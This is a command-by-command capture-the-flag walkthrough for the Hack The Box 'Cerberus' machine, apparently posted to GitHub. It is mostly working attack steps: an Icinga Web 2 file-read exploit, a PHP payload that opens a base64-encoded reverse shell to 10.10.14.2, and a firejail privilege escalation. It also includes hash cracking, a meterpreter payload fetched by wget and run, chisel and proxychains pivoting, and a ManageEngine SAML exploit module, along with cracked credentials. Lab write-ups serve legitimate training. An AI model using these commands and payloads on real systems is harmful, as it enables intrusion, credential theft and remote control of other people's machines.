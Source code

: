 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.205
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8c945ce1-850e-47d9-b545-95e5d5be3b31)


```
nano /etc/hosts
http://icinga.cerberus.local:8080/icingaweb2/authentication/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2e53b3ba-9d4e-4e19-94c4-3ad78b2a2c15)

![image](https://github.com/regarmulia/HTB/assets/33616880/330d7aaa-bfc3-4e35-b234-af77244c7bfb)


```
https://github.com/doosec101/CVE-2022-24716
python3 exploit.py -h
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f53f8aae-4c25-4a22-8b45-a2deae71adcd)

![image](https://github.com/regarmulia/HTB/assets/33616880/c74c6800-1267-4351-b163-d5069f20811c)


```
OR ./lfi.py
username = "matthew"
password = "IcingaWebPassword2023"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9e630069-3f72-4fb8-bb30-1e3cba6b0812)


```
http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3587318-f571-491e-85bd-24cafc9f0401)


```
Login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d98c50cf-6cd1-4f19-955e-9eaf5ca00636)


```
openssl genrsa -out private-key.pem 1024
Configuration – Application: Create a New Resource
../../../../../../../../../../../../dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7af4a30b-6f7d-4c21-a2e3-1a645d0f4ed9)

![image](https://github.com/regarmulia/HTB/assets/33616880/974644ba-82e3-4093-afd2-ad697a2418e6)


```
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/test.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6a42bef0-0852-4ac7-80ef-dd5f55e849f4)


```
echo "sh -i >& /dev/tcp/10.10.14.2/10001 0>&1" | base64 -w 0
../../../../../dev/shm/training/configuration.php
Module path: /dev/shm/
Triger: Click Access Control
python3 exploit.py http://icinga.cerberus.local:8080/icingaweb2 /dev/shm/training/configuration.php

<?php
{
         system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi8xMDAwMSAwPiYxCg==|base64 -d|bash");
}
?>

-----BEGIN PRIVATE KEY-----
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c09ce7c0-7fad-456d-9308-f70ce39597ae)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1a9851d-72eb-4d0b-ad35-ec011a501987)

![image](https://github.com/regarmulia/HTB/assets/33616880/4fca906c-02ec-48c1-b086-916eae7c050f)

![image](https://github.com/regarmulia/HTB/assets/33616880/d5eac0cc-b163-43b3-98f2-6b27eeaf3c6d)


```
python3 -c 'import pty; pty.spawn("/bin/bash")’
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/688e17cd-f90a-42c1-8c69-a402978553b9)


```
firejail --version
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eab00318-12ec-4adb-af59-9a1bbde88edd)


```
https://www.openwall.com/lists/oss-security/2022/06/08/10/1
./firejoin.py
firejail --join=3089
su -
```
![image](https://github.com/regarmulia/HTB/assets/33616880/89365045-1e44-41f9-bc9c-e1c4d9001491)

![image](https://github.com/regarmulia/HTB/assets/33616880/ef258d83-9c59-49a2-946d-77ab18f30bc8)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7a8b416e-d9a2-4c83-b1f9-be1e52029a69)


```
ps aux | grep root
cd /var/lib/sss/db
strings cache_cerberus.local.ldb | sort -u | head
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38531902-3ecb-4616-9d02-a58cf4d46ffb)

![image](https://github.com/regarmulia/HTB/assets/33616880/179029c1-fa5c-4a47-a931-d3e8ab92333a)


```
john hash -w=/usr/share/wordlists/rockyou.txt
147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cddadc3-aca2-4127-b19f-3619563d7c67)


```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.14.2 lport=10002 -f elf -o shell
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d52758b-5933-43c3-bc7b-1478c3e2e3c0)


```
use exploit/multi/handler
run -j
use auxiliary/server/socks_proxy
run -j
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ec61ef7d-8063-406f-8719-584f42e6477c)

![image](https://github.com/regarmulia/HTB/assets/33616880/e1e3def5-1d53-4c17-a068-22a19e6e0422)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fc6d2901-4950-488f-9e9c-9b3bb4a3f630)


```
wget http://10.10.14.2:8000/shell
./shell &
```
![image](https://github.com/regarmulia/HTB/assets/33616880/302a4b0f-1430-41dc-8052-c06660d0754b)


```
use post/multi/manage/autoroute
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0e76bcae-fb3e-4538-9966-4f88134f240d)


```
proxychains evil-winrm -i 172.16.22.1 -u matthew -p 147258369
```
![image](https://github.com/regarmulia/HTB/assets/33616880/098498bd-c8e9-44c9-b8a5-d9c638f91b42)

![image](https://github.com/regarmulia/HTB/assets/33616880/45d9133f-648b-4069-85aa-0307f783bcf2)


```
netstat -ano | select-string LIST
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bfcdbe5d-933c-420f-8aec-bfa6fcc4d612)


```
cat /etc/hosts
```
![image](https://github.com/regarmulia/HTB/assets/33616880/aee0f466-efd5-4e27-b9f8-4e1f978dfe28)


```
git clone https://github.com/jpillora/chisel.git
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8d2867a4-849c-4b95-87e5-274988b0c39c)


```
./chisel_1.9.0_linux_amd64 server --socks5 -p 6666 --reverse
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a07718ca-c3fd-43fd-8d25-ff0d37b44b1e)


```
iwr('http://10.10.14.2:8000/chisel_1.9.0_windows_amd64') -outfile chisel.exe
start-process -filepath .\chisel.exe -args "client 10.10.14.2:6666 R:8888:socks"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c0ccfeea-234e-4df4-aa22-0a06f8bbeaad)


```
nano /etc/proxychains4.conf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/eb447332-f655-4c71-8aba-ed609456a2d5)


```
New SOCKS proxy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/794c406e-f983-4efb-bba8-209f943e474a)


```
https://dc.cerberus.local:9251
https://dc.cerberus.local/adfs/ls/?SAMLRequest=pVNNj9owFLz3V0S%2Bky8cEizCikJXRWLbCLI99FI5zgtrybGp7bDsv1%2BHjy2tWiq1J0v2vPfmzYwnd4dWeHvQhiuZo8gPkQeSqZrLbY4ey%2FtBhu6m7yaGtiLekVlnn%2BQavndgrDczBrR1dXMlTdeC3oDecwaP61WOnqzdGRIEizkZx0kU9A1WastlMEppVkdhNBqHOIxrNqKjFOMqa1hGU0Yjyposq%2BIGeQs3hUtqj9QuDWvmM9AV6M74QjEqAlo3JhAmQN5ykaNvuKrjCqc4TcIhhCHgJMVxQtNkNB5inEQOZkwHS2kslTZHcRgPB2E2iKMyzEiECR77KY6%2BIq%2FQyiqmxHsuT3p0WhJFDTdE0hYMsYxsZg8rEvshqU4gQz6WZTEoPm%2FKY4M9r0F%2FcugcPVBJt%2FBBOhHAmy02IJqzYl4hOoO8Lxcb4t4GZ4w05CT87dG7M080PflEjgtq717pltrbtf0NrwfNEUpAWm5ffpp9u5xeMoCm%2F%2B%2F4JLimP72ErldvuSiU4OzFmwmhnucaqHWKWt0B%2BuuakR%2F9smYnzQ4YbzjUKHibc8411MeUu1BbOFhvrtod1dz0vsCBMvum8jVsLpwSa2j%2BSbmbMEZY39tdF%2B54VrruYwnM8Sw1dYsobS%2FC%2FY7R9Pz4h%2F1%2BPF%2F%2F7ekr&RelayState=aHR0cHM6Ly9EQzo5MjUxL3NhbWxMb2dpbi9MT0dJTl9BVVRI
```
![image](https://github.com/regarmulia/HTB/assets/33616880/78030abe-deeb-41b7-8034-3e171fb53f57)


```
wget https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966.rb
```


```
cd "C:\program files (x86)\manageengine\ADSelfService Plus\backup“
download OfflineBackup_20230214064809.ezip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4013981f-0825-4bc6-8fd0-bff4eee746c2)


```
7z x OfflineBackup_20230214064809.ezip
grep -i issuer_url *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b8aaa3ce-a802-41da-abaf-b9ba871c8ddc)

![image](https://github.com/regarmulia/HTB/assets/33616880/c9023ba0-590d-4291-9e3a-b1ed9672e5dc)


